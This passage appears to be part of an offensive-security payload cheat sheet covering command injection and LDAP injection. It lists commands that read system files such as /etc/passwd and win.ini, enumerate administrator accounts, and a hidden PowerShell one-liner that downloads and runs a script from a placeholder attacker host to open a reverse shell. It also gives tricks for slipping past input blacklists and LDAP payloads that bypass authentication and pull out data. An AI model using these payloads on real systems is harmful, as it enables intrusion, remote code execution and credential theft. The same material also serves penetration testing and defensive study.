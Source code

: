 ```bash
; type C:\Windows\win.ini
; net user
; net localgroup administrators

# Windows reverse shell
; powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"
```

**Bypass filters:**

```bash
# Whitespace filtering bypass
cat</etc/passwd
cat<>file
{cat,/etc/passwd}

# Blacklist bypass
c''at /etc/passwd
c\at /etc/passwd
c$@at /etc/passwd

# Use wildcards
cat /etc/pass??
cat /etc/*ss*d

# Encoding bypass
echo "Y2F0IC9ldGMvcGFzc3dk" | base64 -d | bash  # base64 decode "cat /etc/passwd"
```

### LDAP Injection

**Authentication bypass:**

```bash
# Normal LDAP query:
(&(uid=username)(password=userpass))

# Injection payload:
username: admin)(&)
password: anything

# Resulting query:
(&(uid=admin)(&))(password=anything))
# Always returns admin user
```

**LDAP injection payloads:**

```bash
# Authentication bypass
*
*)(&
*)(uid=*)(&
admin)(&

# Extract data
*)(uid=*))%00
*)(|(uid=*

# Blind LDAP injection
admin)(&(objectClass=*
admin)(&(uid=a*
```

